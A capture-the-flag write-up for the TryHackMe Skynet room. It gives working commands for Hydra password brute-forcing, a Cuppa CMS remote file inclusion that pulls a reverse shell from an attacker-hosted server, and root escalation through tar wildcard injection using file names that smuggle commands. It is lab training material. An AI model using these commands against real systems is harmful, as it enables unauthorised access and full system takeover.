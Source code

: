 # Write-up: Skynet [TryHackMe](https://tryhackme.com/room/skynet)

## Description
The Skynet room focuses on exploiting SMB shares and a vulnerable web CMS to gain system access, followed by privilege escalation to root. The main attack vectors were Cuppa CMS Remote File Inclusion (RFI) and a misconfigured cron job using tar.

## Port Scanning
```python
nmap -p- -A <IP>
```
Open ports:
```python
22/tcp SSH

80/tcp HTTP (Apache)

110/tcp POP3

139/tcp SMB (Samba)

143/tcp IMAP

445/tcp SMB (Samba)
```
## Web Enumeration
Directory Brute-force:
```python
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
```
Found ```/squirrelmail``` — a webmail interface with login, but no useful public exploits. We moved on to enumerating SMB shares.
## SMB Enumeration
Listing SMB shares:
```python
smbclient -L //<IP> -N
```
Interesting shares:

* anonymous — accessible without authentication

* milesdyson — requires credentials

Inside anonymous, we found:

* ```attention.txt```

Directory ```logs/``` with ```log1.txt```, ```log2.txt```, ```log3.txt```

In log1.txt we found a list of passwords.

## Obtaining Credentials
We brute-forced SquirrelMail login using Hydra:
```python
hydra -l milesdyson -P logs/log1.txt <IP> http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:Unknown user or password incorrect."
```
Once logged in, we retrieved the SMB password for milesdyson from the inbox.
```python
smbclient //10.10.84.128/milesdyson -U milesdyson
```
We found the ```notes/important.txt``` file, revealing a hidden directory:
```python
/45kra24zxs28v3yd/
```
## Exploiting Cuppa CMS
Discovered ```/45kra24zxs28v3yd/administrator``` — running Cuppa CMS.

We exploited a Remote File Inclusion (RFI) vulnerability to execute our reverse shell:

1. Start HTTP server:
```python
python3 -m http.server 8000
```
2. Listen for reverse shell:
```python
nc -lvnp 4444
```
3. Trigger RFI exploit:

```python
http://<target_ip>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<attacker_ip>:8000/shell.php
```
Reverse shell as www-data obtained.

## Privilege Escalation
Checking scheduled cron jobs:
```python
cat /etc/crontab
```
Found this:
```python
/home/milesdyson/backups/backup.sh
```
Contents:
```python
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```
Vulnerability: tar with --checkpoint-action=exec allows code execution.

## Exploitation:

We prepared malicious files:
```python
echo -e '#!/bin/bash\nchmod +s /bin/bash' > /var/www/html/root_shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh root_shell.sh"
touch "/var/www/html/--checkpoint=1"
```
After waiting for the cron job, we got a SUID bash:
```python
/bin/bash -p
```
Now we are root.
## Conclusion
Retrieve the flags:
```python
cat /home/milesdyson/user.txt
cat /root/root.txt
```


